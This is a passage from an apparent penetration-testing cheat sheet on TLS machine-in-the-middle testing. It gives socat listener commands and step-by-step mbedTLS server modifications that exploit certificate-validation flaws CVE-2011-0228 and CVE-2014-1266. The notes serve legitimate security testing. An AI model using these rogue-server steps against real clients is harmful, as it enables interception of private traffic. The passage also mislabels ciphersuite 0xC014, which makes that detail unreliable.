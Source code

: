        - *Normally these checks are performed for all certificates in the certificate chain to establish a chain of trust*
     - You can choose between option **A** and **B**
     - **A) Generate openssl key pair and x509 certificate yourself  (self-signed)**
       - `sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -`
     - **B) Use a valid certificate trusted by the client**
       - `sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=myCert.crt,key=priv.key,cafile=CA.pem,verify=0 -`: 
       - The `-` at the end will provide the content of the request in our terminal
       - `verify=0`: disable X.509 Certificate Verification of client
       - If you want to simply listen and forward the request to a local/remote host:
       - `sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0  openssl-connect:[SERVER]:[PORT],verify=0` 
- **mbedTLS**
   - [https://tls.mbed.org](https://tls.mbed.org): SSL library
   - Allows to create malicious server with invalid certificate chain 
   - `wget https://tls.mbed.org/download/mbedtls-2.2.1-apache.tgz`
   - `tar -zxf mbedtls-2.2.1-apache.tgz`
   - `cd mbedtls-2.2.1`
   - `apt-get update && apt-get upgrade`
   - `apt-get install build-essential`
   - `make`
   - **CVE-2011-0228**
   - Client does NOT ensure that the parent certificate (of server certifcate) is a certificate authority
   - This means a malicious.crt is granted even though it's `valid.parent.crt` is not a CA
     - This can be verified: `openssl x509 -in valid.parent.crt -text`
     - Expected output: `X509v3 Basic Constraints: critical` + `CA:FALSE`
   - Modify `programs/ssl/ssl_server.c` by using your `myca.pem` and `private.key` from file system + switch listening port to 443
   - Create myca.pem: `cat malicious.crt valid.parent.crt valid.grandparent.crt > /your/path/myca.pem`
   - `ret =  mbedtls_x509_crt_parse_file(&srvcert, "/root/myca.pem");`: Around line 134
   - `ret =  mbedtls_pk_parse_keyfile(&pkey, "/root/mitm.private.key",NULL);`: Around line 150
   - `make`: compile the modified file
   - `./programs/ssl/ssl_server`: if you changed port to 443 you need to run this command as **sudo user**
   - **CVE-2014-1266**
   - Valid PEM-chain + Any private key + Vulnerable cipher: TLS Key Exchange Granted
   - Nutshell: The attacker presents the legitimate certificate but does not own the private key associated with it
   - This way, even key pinning is bypassed because the presented PEM-chain is valid
   - Modify `programs/ssl/ssl_server.c` by using a valid PEM-chain + forcing a vulnerable ciphersuite + switch listening port to 443
   - Download PEM-chain: Go to valid site, click lock-icon in URL bar, "more info", "security", "view certificate", Scroll down, Download `PEM (chain)`
     - `ret =  mbedtls_x509_crt_parse_file(&srvcert, "/root/myca.pem");`: Around line 134 
   - Define your own force_ciphersuite in the first lines of the main function
     - Add `int force_ciphersuite[2];`
     - Add `force_ciphersuite[0] = 0xC014;`: Stands for **TLS-ECDHE-RSA-WITH-AES-256-GCM-SHA384**
     - Add `mbedtls_ssl_conf_ciphersuites( &conf, force_ciphersuite );`
   - `make`: compile the modified file
   - `./programs/ssl/ssl_server`: if you changed port to 443 you need to run this command as **sudo user** 
